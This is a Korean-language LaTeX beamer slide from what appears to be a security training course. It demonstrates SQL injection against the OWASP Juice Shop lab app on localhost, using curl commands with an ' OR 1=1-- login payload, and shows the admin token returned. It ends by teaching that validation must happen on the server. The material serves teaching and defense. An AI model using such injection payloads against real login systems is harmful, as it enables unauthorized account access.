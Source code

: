 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\hlt}[1]{\textcolor{accent}{\textbf{#1}}}
\begin{document}
\begin{frame}[fragile]{실습: Juice Shop에서 SQLi 해보기 — 터미널 (curl)}

브라우저 없이, \textbf{터미널(cmd/PowerShell)}에서도 공격할 수 있습니다:

\vspace{0.3em}
\begin{lstlisting}[language=bash]
# Windows cmd
curl -X POST http://localhost:3000/rest/user/login ^
  -H "Content-Type: application/json" ^
  -d "{\"email\":\"' OR 1=1--\",\"password\":\"x\"}"

# Linux / Mac
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"'"'"' OR 1=1--","password":"x"}'
\end{lstlisting}

\vspace{0.3em}
\begin{block}{결과}
{\ttfamily\scriptsize
\{"authentication":\{"token":"eyJ0eXAi...",\textcolor{accent}{"umail":"admin@juice-sh.op"}\}\}
}
\end{block}

\vspace{0.3em}
\begin{columns}[T]
\begin{column}{0.48\textwidth}
\begin{block}{왜 터미널에서는 바로 되나?}
\begin{itemize}
    \item curl은 서버에 \hlt{직접} 요청을 보냄
    \item 브라우저의 이메일 형식 검증 없음
    \item 서버는 검증을 안 하니까 그대로 실행
\end{itemize}
\end{block}
\end{column}
\begin{column}{0.48\textwidth}
\begin{alertblock}{핵심 교훈}
\begin{itemize}
    \item 브라우저 검증 = \textbf{사용자 편의}
    \item 서버 검증 = \textbf{진짜 보안}
    \item 해커는 브라우저를 안 씀
    \item \hlt{서버에서 막아야 합니다!}
\end{itemize}
\end{alertblock}
\end{column}
\end{columns}
\end{frame}
\end{document}
